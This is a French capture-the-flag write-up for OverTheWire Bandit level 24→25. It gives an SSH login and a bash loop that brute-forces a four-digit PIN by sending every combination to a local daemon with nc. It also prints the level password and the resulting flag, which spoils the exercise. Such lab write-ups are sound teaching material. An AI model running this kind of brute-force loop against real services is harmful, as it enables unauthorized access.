


# Bandit — Niveau 24 → 25

## 📌 Informations
- **Plateforme :** OverTheWire
- **Série :** Bandit
- **Niveau :** 24 → 25
- **Difficulté :** Débutant
- **Date :** 21/06/2026

---

## 🎯 Objectif.  
Un démon est à l’écoute sur le port 30002 et vous donnera le mot de passe pour bandit25 s’il reçoit le mot de passe pour bandit24 ainsi qu’un code PIN numérique secret à 4 chiffres. Il n’y a aucun moyen de récupérer le code PIN, sauf en passant en revue l’ensemble des 10000 combinaisons, ce que l’on appelle le brute-forcing.

  ---

## 🔍 Réflexion avant de commencer.  
comment faire un brute-forcing


---

## 🛠️ Commandes données en indice

| Commande | Rôle |
|---|---|
| `man` | Permet de consulter la documentation d'une commande spécifique, il suffit de saisir man suivi du nom de la commande |
| `diff` | permet de comparer deux fichiers texte ligne par ligne.|
| `ncat` | permet de lire et d'écrire des données à travers le réseau en utilisant les protocoles TCP ou UDP. |
| `uniq` | Permet de filtrer les lignes répétées d'un fichier texte ou d'une entrée standard. |
| `strings` | Permet de rechercher et d'extraire des séquences de caractères lisibles (texte) dans des fichiers binaires ou des exécutables. |
| `base64` | Base64 est un système de codage utilisé pour convertir des données binaires en format texte en les encodant en une représentation en base 64.|

---


## 📖 Résolution

### Étape 1 — Connexion au serveur

```bash
ssh bandit24@bandit.labs.overthewire.org -p 2220
```


### Étape 2 — 

```bash
for i in {0000..9999}; do echo "gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8 $i"; done | nc localhost 30002

```

## Visuel
  
 


## 🚩 Flag obtenu
```
iCi86ttT4KSNe1armKiwbQNmB3YJP3q4
```  

---

## 🔗 Références
- [Page officielle Bandit](https://overthewire.org/wargames/bandit/).